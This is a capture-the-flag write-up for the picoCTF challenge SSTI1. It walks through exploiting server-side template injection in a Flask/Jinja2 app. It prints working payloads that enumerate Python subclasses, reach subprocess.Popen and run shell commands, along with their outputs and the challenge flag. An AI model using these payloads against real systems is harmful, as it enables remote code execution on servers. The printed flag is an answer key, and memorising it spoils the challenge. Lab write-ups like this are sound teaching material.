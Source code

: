 # **Write-Up for SSTI1 (Server-Side Template Injection)**  

## **Challenge Overview**  

### **Challenge Name:** SSTI1  
### **Category:** Web Exploitation  
### **Description:**  

The challenge presents a web application where users can post announcements. The key vulnerability hinted at in the description is **Server-Side Template Injection (SSTI)**. The goal is to exploit this weakness to execute commands on the server and retrieve the flag.  

---

## **Step 1: Identifying SSTI Vulnerability**  

To determine whether the application is vulnerable to SSTI, I tested a simple mathematical expression:  

```
{{7*7}}
```  

If the application correctly processes the input as a template expression, the result should be `49`.  

**Result:**  

```
49
```  

This confirms that the input is being interpreted and evaluated by a template engine, meaning the application is vulnerable to SSTI.  

---

## **Step 2: Identifying the Template Engine**  

Different web frameworks use different template engines, so determining which one is in use helps in crafting a targeted exploit. One common way to test for Jinja2 (used in Flask applications) is by checking for a Flask configuration object:  

```
{{ config }}
```  

**Result:**  

The output included a Flask configuration dictionary, confirming that the application is running on **Jinja2 (Python)**.  

---

## **Step 3: Exploring Available Objects**  

Jinja2 allows access to Python objects through template expressions. By enumerating the subclasses available in the execution environment, I was able to identify objects that could be leveraged for code execution.  

The following payload lists all available subclasses:  

```
{{ ''.__class__.__mro__[1].__subclasses__() }}
```  

**Result:**  

A long list of available classes was returned, including `subprocess.Popen`, which allows for **command execution** on the server.  

---

## **Step 4: Finding the Index of `subprocess.Popen`**  

Since `subprocess.Popen` was included in the list, the next step was to determine its index within the subclasses list. By iterating through the list and searching for `subprocess.Popen`, I found that it was at index `356`:  

```
{{ ''.__class__.__mro__[1].__subclasses__()[356] }}
```  

**Result:**  

```
<class 'subprocess.Popen'>
```  

This confirmed that `subprocess.Popen` could be accessed and used to execute commands.  

---

## **Step 5: Listing Files on the Server**  

Now that I had access to `subprocess.Popen`, I used it to execute the `ls` command to list the files present in the working directory:  

```
{{ ''.__class__.__mro__[1].__subclasses__()[356]('ls', shell=True, stdout=-1).communicate() }}
```  

**Result:**  

```
(b'__pycache__\napp.py\nflag\nrequirements.txt\n', None)
```  

This confirmed the presence of a file named **`flag`**.  

---

## **Step 6: Reading the Flag File**  

With `subprocess.Popen`, I executed the `cat` command to read the contents of the `flag` file:  

```
{{ ''.__class__.__mro__[1].__subclasses__()[356]('cat flag', shell=True, stdout=-1).communicate() }}
```  

**Result:**  

```
(b'picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bd4cfc64}', None)
```  

This successfully retrieved the flag.  

---

## **Final Flag**  

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bd4cfc64}
